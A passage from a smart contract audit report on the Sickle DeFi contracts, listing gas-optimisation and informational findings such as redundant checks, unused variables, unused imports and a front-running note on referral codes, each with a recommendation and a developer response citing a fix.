In the `initiateFlashloan()` function of the [FlashloanStub.sol](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/stubs/FlashloanStub.sol#L116) the `flashloanOpsRegistry` is validated, but this check will most likely never revert if deployment was correct.

#### Impact

Gas savings.

#### Recommendation

Consider moving this check to the constructor or remove it.

#### Developer Response

Fixed in [pull request #85](https://github.com/vfat-tools/sickle-contracts/pull/85).

### 4. Gas - Duplicate `calculatePremiums()` calls for Uniswap flashloans

#### Technical Details

The [strategies call `calculatePremiums()`](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/DForceStrategyTwo.sol#L85) prior to calling the [`FlashloanStub`'s `initiateFlashloan()`](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/DForceStrategyTwo.sol#L100). In the case of Uniswap flashloans, [`calculatePremiums()`](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/stubs/FlashloanStub.sol#L211) is called again inside the `initiateFlashloan()` function.

#### Impact

Gas savings.

#### Recommendation

Remove the `calculatePremiums()` calls in the Uniswap flash loan cases in `FlashloanStub`'s `initiateFlashloan()`.

#### Developer Response

Fixed in [pull request #96](https://github.com/vfat-tools/sickle-contracts/pull/96).

### 5. Gas - Useless `flashloanRequester` variable

The FlashloanStub store the strategy initiating the flashloan in `flashloanRequester`, it is then used to transfer the tokens to it.

But the callback function of the flashloan gets the target's address using the strategy's selector, so we don't need to save the strategy's address in storage.

#### Technical Details

The `initiateFlashloan()` function from [FlashloanStub.sol](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/stubs/FlashloanStub.sol#L133) saves the `msg.sender` to be able to transfer the token received during the callback.

But the target is computed anyway in the callback, it uses extra gas for nothing.

[FlashloanStub.sol:272](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/stubs/FlashloanStub.sol#L272)

```solidity
// fetching the corresponding strategy from the registry
address targetStrategy = FlashloanOpsRegistry(flashloanOpsRegistry)
  .whitelistedFlashloanOpsRegistry(flashloanOpSelector);

if (targetStrategy == address(0)) {
  revert UnauthorizedOperation();
}
```

#### Impact

Gas savings.

#### Recommendation

Consider removing `flashloanRequester` and use the `targetStrategy` to transfer tokens in all callback functions.

#### Developer Response

Fixed in [pull request #95](https://github.com/vfat-tools/sickle-contracts/pull/95).

### 6. Gas - Some storage variables can be set to `immutable`

Multiple storage variables can be set to `immutable` in the following contracts:

- [DForceStrategyOne.sol](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/DForceStrategyOne.sol)
- [DForceStrategyTwo](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/DForceStrategyTwo.sol)
- [FlashloanStub](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/stubs/FlashloanStub.sol#L41)
- [SickleStorage](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/base/SickleStorage.sol#L27)
- [SickleFactory](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/SickleFactory.sol#L35)
- [SickleRegistry](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/SickleRegistry.sol#L27)

The `feesLib` in [StrategyBase.sol](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/StrategyBase.sol#L14) could also be set to `immutable`, but you might consider adding a setter, so the library can be updated in the future.

#### Technical Details

In multiple contracts there are storage variables that are only set during the `constructor()` call and thus should be set immutable to save gas.

#### Impact

Gas savings.

#### Recommendation

Consider making all variables that are only set in the `constructor()` to `immutable` or adding setter functions.

#### Developer Response

Fixed in [pull request #91](https://github.com/vfat-tools/sickle-contracts/pull/91).

### 7. Gas - Useless `isInternalCall` variable in MasterChef strategy

`isInternalCall` doesn't seem to serve any purpose in [MasterChefStrategy.sol](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/MasterChefStrategy.sol).

It is always set to `false` and will be set to `true` then back to `false` only in `masterChef_compound()` without any effect on the contract logic.

#### Technical Details

`isInternalCall` is checked in `masterChef_deposit()` but because it is always false this check will always return true.

[MasterChefStrategy.sol:72](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/MasterChefStrategy.sol#L72)

```solidity
if (!isInternalCall && zapData.tokenIn != zapData.lpToken) {

...

if (!isInternalCall) {
```

It is set to `true` and then back to `false` in `masterChef_compound()` before and after the `multicall()`. As this multicall doesn't target the strategy it has no effect.

[MasterChefStrategy.sol:377](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/MasterChefStrategy.sol#L377)

```solidity
targets[0] = sickleAddress;
targets[1] = masterChef;

...

isInternalCall = true;
sickle.multicall(targets, data, isDelegatecall, values);
isInternalCall = false;
```

#### Impact

Gas savings.

#### Recommendation

Remove `isInternalCall` variable and the checks from `masterChef_deposit()`.

#### Developer Response

Fixed in [pull request #80](https://github.com/vfat-tools/sickle-contracts/pull/80).

## Informational Findings

### 1. Informational - `extractSelector()` is `external` instead of `public`

In the `FlashloanStub.sol` contract the function `extractSelector()` is called internally but because it is `external` the `this` keyword is needed which cost extra gas and breaks the assumption of `external` functions not supposed to be callable inside the contract.

#### Technical Details

In the [FlashloanSub.sol:L577](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/stubs/FlashloanStub.sol#L577) the function `extractSelector()` is `external` while it should be `public`.

#### Impact

Informational.

#### Recommendation

Make the function `public`.

#### Developer Response

Fixed in [pull request #82](https://github.com/vfat-tools/sickle-contracts/pull/82).

### 2. Informational - Commented code in `MasterChefStrategy`

#### Technical Details

There is [commented-out code](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/MasterChefStrategy.sol#L609) in the `MasterChefStrategy`'s `_zapOut()` function that can be removed.

#### Impact

Informational.

#### Recommendation

Remove the dead code.

#### Developer Response

Fixed in [pull request #84](https://github.com/vfat-tools/sickle-contracts/pull/84).

### 3. Informational - Imports are unused

#### Technical Details

Various imports throughout the codebase are not used and can be removed.

- [The FlashloanOpsRegistry.sol import in SickleStorage.sol](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/base/SickleStorage.sol#L5)
- [The SafeTransferLib.sol import in FeesLib.sol](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/libs/FeesLib.sol#L7)
- [ERC20.sol import in MasterChefStrategy.sol](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/MasterChefStrategy.sol#L5)
- [Multicall.sol import in FlashloanStub.sol](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/stubs/FlashloanStub.sol#L11)

#### Impact

Informational.

#### Recommendation

Remove the imports.

#### Developer Response

Fixed in [pull request #81](https://github.com/vfat-tools/sickle-contracts/pull/81).

### 4. Informational - `setReferralCode` is susceptible to front-running

#### Technical Details

When [`setReferralCode`](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/SickleRegistry.sol#L90) is called the transaction will be in the public mempool. A front-runner can replace the msg.sender with their own and claim the referral code that the user intended to claim.

#### Impact

Informational.

#### Recommendation

Users should use a private relay when claiming a referral code.

#### Developer Response

Acknowledge. We're going to keep the code as it is now and simply perform a check off-chain on the front-end.

## Final remarks

The auditors have found the project well organized and the team helpful during the audit. While much development effort was focused on putting elements on-chain that could be computed off-chain to increase protocol security, this also increases the complexity and gas usage of the contracts.
